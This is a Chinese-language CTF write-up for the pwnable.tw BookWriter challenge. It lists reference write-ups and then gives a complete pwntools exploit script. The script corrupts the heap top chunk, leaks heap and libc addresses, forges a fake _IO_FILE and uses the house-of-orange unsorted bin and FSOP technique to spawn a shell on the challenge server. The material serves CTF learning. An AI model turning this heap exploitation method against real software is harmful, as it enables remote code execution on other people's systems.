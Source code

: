 ```yaml
---
title: 和媳妇一起学Pwn 之 BookWriter
date: 2020-04-04 00:00:00
categories:
- CTF/Pwn
tags: pwnable.tw  BookWriter
---
```


> 本题总结点较多，之后总结

- 题目地址：[https://pwnable.tw/challenge/#24](https://pwnable.tw/challenge/#24)

## 参考

- [house of orange 漏洞](http://blog.eonew.cn/archives/1093)
- [IO FILE 学习笔记](https://veritas501.space/2017/12/13/IO%20FILE%20%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/)

- [pwnable.tw 1~10题 writeup](https://veritas501.space/2018/02/21/pwnable.tw%201~10%E9%A2%98%20writeup/)
- [pwnable.tw 11~18题 writeup](https://veritas501.space/2018/03/04/pwnable.tw%2011~18%E9%A2%98%20writeup/)

- [pwnable.tw部分writeup(不定期更新)](https://0xffff.one/d/410)
- [pwnable.tw部分writeup(不定期更新)_Vol.2](https://0xffff.one/d/469)

- [BookWriter Writeup](http://weaponx.site/2018/06/11/BookWriter-Writeup-pwnable-tw/)
- [pwnable tw bookwriter writeup](https://sunichi.github.io/2018/07/02/pwnable-tw-bookwriter/)
- [BookWriter 解题思路](http://p4nda.top/2017/12/15/pwnable-tw-bookwriter/)
- [pwnable.tw bookwriter writeup – house of orange 的巧妙利用](http://blog.eonew.cn/archives/1140)
- [pwnable.tw中的bookwriter](https://www.lyyl.online/2019/10/08/pwnable-tw%E4%B8%AD%E7%9A%84bookwriter/)
- [从BookWriter看house_of_orange原理](https://bbs.pediy.com/thread-223334.htm)
- [Pwnable.tw之BookWriter](https://bbs.pediy.com/thread-226694.htm)


## exp

```python
from pwn import *

context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./bookwriter")
libc   = ELF("./libc_64.so.6")
io     = remote("chall.pwnable.tw",10304)

uu64        = lambda data          :  u64(data.ljust(8, b'\0'))
sla         = lambda delim,data    :  (io.sendlineafter(delim, data))
sa          = lambda delim,data    :  (io.sendafter(delim, data))
start       = lambda author        :  (sla("Author :",author))
add         = lambda size,content  :  (sla("choice :","1"),sla("page :",str(size)),sa("Content :",content))
view        = lambda num           :  (sla("choice :","2"),sla("page :",str(num)))
edit        = lambda num,content   :  (sla("choice :","3"),sla("page :",str(num)),sla("Content:",content))
show        = lambda               :  (sla("choice :","4"))

# fill author  
start("x"*60+'xuan')

# overlap and modify top chunk size 
add(0x18,'a')
edit(0,'b'*0x18)
edit(0,'\x00'*0x18+'\xe1\x0f')

# leak heap
show();io.recvuntil("xuan")
heap_addr = uu64(io.recvuntil("\n")[:-1])
sla(") ",'0')

# move top chunk to unsorted bin
add(0x1000,'a')
for i in range(7):
    add(0x18,'xuanxuan')

# leak libc
view(2);io.recvuntil("xuanxuan")
libc.address = uu64(io.readline()[:-1])-0x3c4188

# make fake file 
data = "\x00"*(0x20*7+0x10)
payload  = "/bin/sh\x00" + p64(0x61) 
payload += p64(0) + p64(libc.symbols['_IO_list_all']-0x10) 
payload += p64(0) + p64(1)
payload = payload.ljust(0xd8, "\x00")
payload += p64(heap_addr + 0x20*7+0x10 + 0xd8 + 0x8)+p64(libc.symbols['system'])*4

# use unsorted bin attack and FOSP to getshell
edit(0,data+payload)
sla("choice :","1");sla("page :",str(0x10))
io.interactive()
```